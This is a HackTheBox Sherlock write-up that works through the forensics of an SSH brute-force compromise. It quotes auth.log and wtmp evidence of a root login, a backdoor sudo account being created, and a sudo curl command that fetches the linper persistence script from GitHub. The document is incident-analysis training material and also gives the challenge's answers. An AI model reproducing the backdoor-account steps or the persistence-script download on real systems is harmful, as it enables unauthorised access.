 ```yaml
---
title: Brutus 
layout: page
permalink: /writeups/hackthebox/brutus
---
```


# Brutus Sherlock Write-Up

**Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?** 

From analyzing , we can see the brute force begins at 06:31:31 from an IP: 65.2.161.68

```bash
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Invalid user admin from **65.2.161.68** port 46380
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Received disconnect from 65.2.161.68 port 46380:11: Bye Bye [preauth]
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Disconnected from invalid user admin 65.2.161.68 port 46380 [preauth]
Mar  6 06:31:31 ip-172-31-35-28 sshd[620]: error: beginning MaxStartups throttling
Mar  6 06:31:31 ip-172-31-35-28 sshd[620]: drop connection #10 from [65.2.161.68]:46482 on [172.31.35.28]:22 past MaxStartups
Mar  6 06:31:31 ip-172-31-35-28 sshd[2327]: Invalid user admin from 65.2.161.68 port 46392
Mar  6 06:31:31 ip-172-31-35-28 sshd[2327]: pam_unix(sshd:auth): check pass; user unknown
Mar  6 06:31:31 ip-172-31-35-28 sshd[2327]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=65.2.161.68
Mar  6 06:31:31 ip-172-31-35-28 sshd[2332]: Invalid user admin from 65.2.161.68 port 46444
Mar  6 06:31:31 ip-172-31-35-28 sshd[2331]: Invalid user admin from 65.2.161.68 port 46436
Mar  6 06:31:31 ip-172-31-35-28 sshd[2332]: pam_unix(sshd:auth): check pass; user unknown
Mar  6 06:31:31 ip-172-31-35-28 sshd[2332]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=65.2.161.68
Mar  6 06:31:31 ip-172-31-35-28 sshd[2331]: pam_unix(sshd:auth): check pass; user unknown
Mar  6 06:31:31 ip-172-31-35-28 sshd[2331]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=65.2.161.68
Mar  6 06:31:31 ip-172-31-35-28 sshd[2330]: Invalid user admin from 65.2.161.68 port 46422
Mar  6 06:31:31 ip-172-31-35-28 sshd[2337]: Invalid user admin from 65.2.161.68 port 46498
Mar  6 06:31:31 ip-172-31-35-28 sshd[2328]: Invalid user admin from 65.2.161.68 port 46390
Mar  6 06:31:31 ip-172-31-35-28 sshd[2335]: Invalid user admin from 65.2.161.68 port 46460
```

**The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?**

Analyzing auth.log once again looking for an accepted password confirmation we find one here: 

```bash
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2
```

**Identify the UTC timestamp when the attacker logged in manually to the server and established a terminal session to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.**

For this it tells us to use the wtmp artifact to gain this timestamp. The artifact itself is a binary and therefore not readable text. However, we can use the utmpdump tool to read it as such:

```bash
utmpdump wtmp
```

and we can see after analyzing the wtmp output that it the time stamp of the first login is:

```bash
2024-03-06 06:32:45
```

**SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?**

Going back to analysis of the auth.log file, we can look or the first session the user gained as root. We see the following:

```bash
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
```

So in this case, session 37 is the session number. 

**The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?**

This question is asking us to find the name of the account the user created as root. 

```bash
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/gshadow: name=cyberjunkie
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: new group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
Mar  6 06:34:26 ip-172-31-35-28 passwd[2603]: pam_unix(passwd:chauthtok): password changed for cyberjunkie
Mar  6 06:34:31 ip-172-31-35-28 chfn[2605]: changed user 'cyberjunkie' information
Mar  6 06:35:01 ip-172-31-35-28 CRON[2614]: pam_unix(cron:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:35:01 ip-172-31-35-28 CRON[2616]: pam_unix(cron:session): session opened for user confluence(uid=998) by (uid=0)
Mar  6 06:35:01 ip-172-31-35-28 CRON[2615]: pam_unix(cron:session): session opened for user confluence(uid=998) by (uid=0)
Mar  6 06:35:01 ip-172-31-35-28 CRON[2614]: pam_unix(cron:session): session closed for user root
Mar  6 06:35:01 ip-172-31-35-28 CRON[2616]: pam_unix(cron:session): session closed for user confluence
Mar  6 06:35:01 ip-172-31-35-28 CRON[2615]: pam_unix(cron:session): session closed for user confluence
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to group 'sudo'
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to shadow group 'sudo'
```

From this part of auth.log, we see that ‘cyberjunkie’ the new user in question. They were given sudo permissions likely to use as a back door to log in from. 

**What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?**

For this question we can simply google the MITRE ATT&CK knowledge base and find the persistence sub-technique for creating users. 

 

![2025-05-27 18_42_56-Create Account, Technique T1136 - Enterprise _ MITRE ATT&CK®.png](attachment:1e954f09-efaf-47c1-afc3-436a3c481036:2025-05-27_18_42_56-Create_Account_Technique_T1136_-_Enterprise___MITRE_ATTCK.png)

in this case, since the user created a local account it would be T1136.001

**What time did the attacker's first SSH session end according to auth.log?**

We can find such information towards the end of the auth.log file and we see it is at 06:37:24:

```bash
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session closed for user root
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Session 37 logged out. Waiting for processes to exit.
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Removed session 37.
```

**The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?**

For this question, we are once again using the auth.log file. In most cases, commands are not logged in auth.log. However since the command was executed using sudo, authentication was required during the process and therefore being logged in auth.log. We can see the full command here: 

```bash
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
Mar  6 06:39:38 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
```

the command would be:

```bash
sudo /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```
